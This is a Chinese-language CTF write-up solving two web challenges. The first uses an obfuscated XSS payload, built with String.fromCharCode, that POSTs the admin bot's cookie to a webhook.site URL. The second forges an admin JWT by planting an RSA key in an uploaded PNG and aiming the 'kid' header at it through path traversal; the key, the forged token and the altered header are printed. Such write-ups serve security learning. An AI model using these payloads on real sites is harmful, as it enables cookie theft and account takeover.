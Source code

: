 # web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作
生成一个公私钥,然后使用私钥加密
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414031105.png)

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6bnVsbCwiaWF0IjoxNzEzMDM1NDA0fQ.h1QmHfqXz0YHlhOjqgohwpzfQ4ugCkHS9fQaBOmcqyg237NctYZ-SS4H0oRYhM8VEywSgmGohIpNrM-Pw7dU8jedoxru9stQYbCoIKyB9tQFFkLbBXysBLp7N3UoxPnzHxD5ilhvaWaXy2v1orNXs1YYwIOJ4gE_Au3GUXEOlBY
```

然后修改头部
`{'alg': 'RS256', 'kid': '../../../../../../../../uploads/cf00f2ee-4886-4d6c-8e4c-30bde26c76f4.png', 'typ': 'JWT'}`
base64后为
`eydhbGcnOiAnUlMyNTYnLCAna2lkJzogJy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvY2YwMGYyZWUtNDg4Ni00ZDZjLThlNGMtMzBiZGUyNmM3NmY0LnBuZycsICd0eXAnOiAnSldUJ30=`

最终得到
eydhbGcnOiAnUlMyNTYnLCAna2lkJzogJy4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvY2YwMGYyZWUtNDg4Ni00ZDZjLThlNGMtMzBiZGUyNmM3NmY0LnBuZycsICd0eXAnOiAnSldUJ30.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6bnVsbCwiaWF0IjoxNzEzMDM1NDA0fQ.h1QmHfqXz0YHlhOjqgohwpzfQ4ugCkHS9fQaBOmcqyg237NctYZ-SS4H0oRYhM8VEywSgmGohIpNrM-Pw7dU8jedoxru9stQYbCoIKyB9tQFFkLbBXysBLp7N3UoxPnzHxD5ilhvaWaXy2v1orNXs1YYwIOJ4gE_Au3GUXEOlBY


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21
